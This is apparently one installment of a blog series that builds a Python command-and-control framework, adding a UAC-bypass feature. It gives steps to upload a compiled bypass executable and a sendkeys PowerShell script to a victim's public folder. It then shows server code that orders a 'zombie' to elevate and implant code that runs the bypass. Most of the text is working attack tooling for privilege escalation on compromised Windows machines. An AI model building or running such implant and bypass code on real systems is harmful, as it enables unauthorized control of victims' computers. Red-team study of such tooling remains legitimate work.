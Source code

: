 Instead of posting all the Python code, I'm going to ask that you reference the code from the previous posts.  That way, I can get straight to the new features and post smaller snippits.  I think that will help explain the new additions to our C2 better and make things easier to follow.

> **Prep**

- Be sure to open and compile the UIAccess_bypassUAC C++ project.  
- Rename the resulting `.exe` file to `UACBypass.exe` and copy/upload it to the `c:\users\public directory` on the victim machine.  This will be used as our bypass UAC utility and integrated into the C2.
- Finally, copy/upload the `getitdone.ps1` file to the victim box, also in the `c:\users\public` directory.  I was lazy and called it getitdone.  feel free to change it if you like lol.  This is the script that issues the sendkeys portion of the UAC bypass and opens an elevated executable using `azman.msc`

**> Server side**

```python
if choice == "bypassuac":
            print("checking to see if this user is a member of the admins group...")
            if "True" in clientdata[selection][2]:
                print("Nice! You're in the administrators group.  continuing...")
            else:
                print("Sorry, you're either already SYSTEM or you need to be a member of the administrators groups for this to work")
                time.sleep(4)
                return
            #attackerip=input(Fore.YELLOW + "[What is the IP of your attacker box (likely this box you're using right now)]: $ " + Fore.WHITE)
            #attackerport=input(Fore.YELLOW + "[What is the port of your attacker box (likely this box you're using right now)]: $ " + Fore.WHITE)
            print("Attempting to elevate privileges from medium to high integrity with current user...")
            try:
                clientlist[selection][1].send(b":bypassuac:\n")
                print(Fore.GREEN + "[+] command successfully sent!" + Fore.WHITE)
                uacstatus=clientlist[selection][1].recv(1024)
                uacstatus = uacstatus.decode('UTF-8')
                print(uacstatus)
                time.sleep(4)
            except:
                print(Fore.RED + "[!] There was an issue communicating with the zombie...\ncheck to see if your zombie died" + Fore.WHITE)
                time.sleep(2)
```

> **Client / Implant code** 🧟

```python
if ":bypassuac:" in data:
            if str(shell.IsUserAnAdmin()) == "True":
                print("LOL, good news!  you're already in an elevated shell!")
                client.send(b"Already in elevated shell!\n")
            elif os.getlogin() == "SYSTEM":
                print("You're already SYSTEM ;)")
                client.send(b"You're already SYSTEM ;)\n")
            else:
                print("Attempting to bypassUAC now!")
                proc = subprocess.Popen("C:/Users/public/UACBypass.exe", stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
                #proc = subprocess.Popen(["c:/users/robbi/source/repos/UACBypass/x64/Debug/UACBypass.exe"], stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
                #client.send(b"returned output: \n"+proc.stdout.read())
                time.sleep(2)
                client.send(b"[+] Wrapping things up!  You should have an elevated shell soon!\n")
```
